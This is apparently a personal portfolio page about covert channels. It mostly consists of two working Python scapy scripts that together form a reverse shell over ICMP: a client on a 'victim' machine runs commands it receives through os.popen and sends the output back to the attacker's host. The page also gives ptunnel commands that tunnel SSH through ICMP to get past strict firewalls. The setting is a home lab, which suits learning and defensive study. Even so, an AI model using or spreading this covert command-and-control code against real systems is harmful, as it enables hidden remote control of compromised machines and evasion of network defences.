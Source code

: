 ```yaml
---
permalink: /portfolio/covert/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Covert Channels
---
```


## Introduction

Covert channels is a way to hide and/or obfuscate your connection. This can be done by minimizing your communication, or by tunneling the traffic through different protocols.

## ICMP Tunneling

One way of setting up a covert channeling is by using ICMP tunneling. This wraps the data is a ICMP packet, these packets are allowed on most networks.

Basically, a ping packet has a lot of reserved space, which is often filled with a buffer of null-bytes. This empty space can be used to send data over. This cannot be a lot, but a simple shell works.

![ping](https://joeladams.nl/wp-content/uploads/2020/09/ICMP-info.png)

Say, you compromise a machine within a network, but you know that the network is very strict on all tcp connections. Then we tunnel the traffic to ICMP, an allowed protocol, so we can control our victim.

![network](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/network.png)

First, I wanted to manually make a simple script that communicates over ICMP. This is the end result of searching and debugging. ([source](https://medium.com/@galolbardes/learn-how-easy-is-to-bypass-firewalls-using-dns-tunneling-and-also-how-to-block-it-3ed652f4a000))

Client (executed on victim)

```python
#!/usr/bin/env python3

import os
from scapy.all import *

ip = "192.168.241.130"

def main():
    while True:
        # wait for the ICMP message containing the command from the C2 server to be received
        rx = sniff(filter="icmp", count=1)
        var = rx[0]
        if Raw not in var: #If the packet does not contain Raw, it is a wrong message
          continue
        var = rx[0][Raw].load.decode('utf-8')
        # run the command and save the result
        res = os.popen(var).read()
        print(res)
        # build the ICMP packet with the result as the payload
        #This packet is send back to the server.
        send(IP(dst=ip)/ICMP(type="echo-reply", id=0x0001, seq=0x1)/res)

if __name__ == "__main__":
    main()

```

Server (executed on Kali)

```python
#!/usr/bin/env python3

from scapy.all import *

ip="192.168.241.132"

def main():
    while True:
        command = input('# Enter command: ')
        # build the ICMP packet with the command as the payload
        pinger = IP(dst=ip)/ICMP(id=0x0001, seq=0x1)/command
        send(pinger)

        # wait for the ICMP message containing the answer from the agent to be received
        rx = sniff(filter="icmp", count=3) #Capture more than one packet, too much takes long, too little might nog contain the response
        for r in rx:
          if Raw in r: # If the packet contains a Raw load, we have the correct response.
              print(r[Raw].load.decode('utf-8'))

if __name__ == "__main__":
    main()

```

basically, this is a extremely simple reverse shell over ICMP. Both scripts need to be started as root in order to use the pinger on Linux. Then the C2 server send a ping request with a command, this command is executed and a reply with the result of the executing is send back. As you can see on the wireshark result (captured on Kali), the server send 2 replies. The first one is the default reply send by the victim machine itself. The second reply is send by the script, this contains the result of the executed command.

![wireshark](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/wireshark.png)

![command](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/command.png)

![reply](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/reply.png)

Great! But now we want to advance in the network. How would we do this? Well, using ptunnel we can create a port-forward tunnel over ICMP, to use SSH, for instance. This can be done with the following command:

```bash
#Server (victim)
sudo ptunnnel -v 4

#client (kali)
sudo ptunnel  -p 192.168.241.131 -lp 8000 -da 192.168.241.132 -dp 22 -c eth0
```

Once again, all of the command need to run as root. On the server you start a listener to listen for the incoming connection. The `-v 4` is to show the most output for debugging. Then, the second command needs to be executed on the client, in this case Kali.

- `-p` The ip of the listening server

- `-lp` The localport to forward

- `-da` The remote machine to forward the traffic to (target in this case)

- `-dp` The remote port of target

- `-c` The interface of the local machine to use.

This creates a port forward form my Kali port 8000 to the target port 22. Now I can communicate with target over SSH through ICMP

![connected](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/connected.png)

![sshshark](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/covert/sshshark.png)